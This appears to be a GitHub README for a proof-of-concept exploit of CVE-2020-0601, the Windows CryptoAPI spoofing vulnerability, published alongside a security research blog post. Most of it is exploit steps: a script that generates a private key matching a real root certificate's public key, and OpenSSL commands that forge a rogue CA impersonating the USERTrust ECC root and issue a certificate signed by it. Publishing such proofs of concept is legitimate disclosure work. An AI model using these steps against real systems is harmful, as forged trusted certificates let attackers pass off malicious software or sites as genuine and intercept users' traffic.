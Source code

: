 # CryptoAPI

CVE-2020-0601: Windows CryptoAPI Spoofing Vulnerability exploitation. More information in our [blog post](https://research.kudelskisecurity.com/2020/01/15/cve-2020-0601-the-chainoffools-attack-explained-with-poc).

# CA certificate

We used the [USERTrust ECC Certification Authority](http://www.tbs-x509.com/USERTrustECCCertificationAuthority.crt) but it can be any root certificate working on P-384 curve.

To generate a private key which match the public key from the root certificate we used the script **gen-key.py** (works with Python 3.6 and above):
```bash
$ gen-key.py RootCert.pem 
```

The key can be displayed with:
```bash
$ openssl ec -in p384-key-rogue.pem -text
```

Then to generate the rogue CA:

```bash
$ openssl req -key p384-key-rogue.pem -new -out ca-rogue.pem -x509 -set_serial 0x5c8b99c55a94c5d27156decd8980cc26
```

With "C = US, ST = New Jersey, L = Jersey City, O = The USERTRUST Network, CN = USERTrust ECC Certification Authority" parameters

Then we generate the following private key and certificate:
```bash
openssl ecparam -name prime256v1 -genkey -noout -out prime256v1-privkey.pem

openssl req -key prime256v1-privkey.pem -config openssl.cnf -new -out prime256v1.csr

openssl x509 -req -in prime256v1.csr -CA ca-rogue.pem -CAkey p384-key-rogue.pem -CAcreateserial -out client-cert.pem -days 500 -extensions v3_req -extfile openssl.cnf 
```
